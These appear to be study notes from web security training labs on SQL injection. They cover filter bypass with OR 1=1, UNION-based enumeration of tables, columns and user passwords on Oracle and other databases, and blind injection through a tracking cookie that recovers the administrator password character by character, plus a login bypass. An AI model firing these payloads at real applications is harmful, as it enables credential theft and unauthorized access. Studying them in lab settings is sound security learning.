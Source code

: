 # Retrieving hidden data

## simple attack 
`https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
=> after injecting `'+OR+1=1--` -> `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

## Examining the database

> **determine number of columns/which column contains text**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
> **database version**: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

- On <mark style="background: #BBFABBA6;">MySQL and Microsoft</mark>
>  `'+UNION+SELECT+'abc','def'#`
>  `'+UNION+SELECT+@@version,+NULL#`
## Listing the contents 

- <mark style="background: #FF5582A6;">Oracle</mark>
>**number of columns**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
>**list of tables in the database**: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
>**details of the columns in the table**:`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
>**usernames and passwords for all users**: `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`

- <mark style="background: #FF5582A6;">non-Oracle</mark>
>`'+UNION+SELECT+'abc','def'--`
>`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
>`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
>`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

# Blind SQL injection
## triggering conditional responses

- let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz' AND '1'='1` -> "Welcome back" message appears in the response
>2) **change it to**: `TrackingId=xyz' AND '1'='2` ->  "Welcome back" message does not appear in the response
>3) `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a` ->  there is a table called `users`
>4) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a` -> there is a user called `administrator`
>5) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a` -> password is greater than 1 character in length.
>6) burp intruder/Repeater =>  password is 20 characters long.
>7) `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§` -> first character
>8) `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§` ->2nd character
>And so on...

# Subverting application logic

## simple attack 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` 
=> submit username as `administrator'--` -> `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`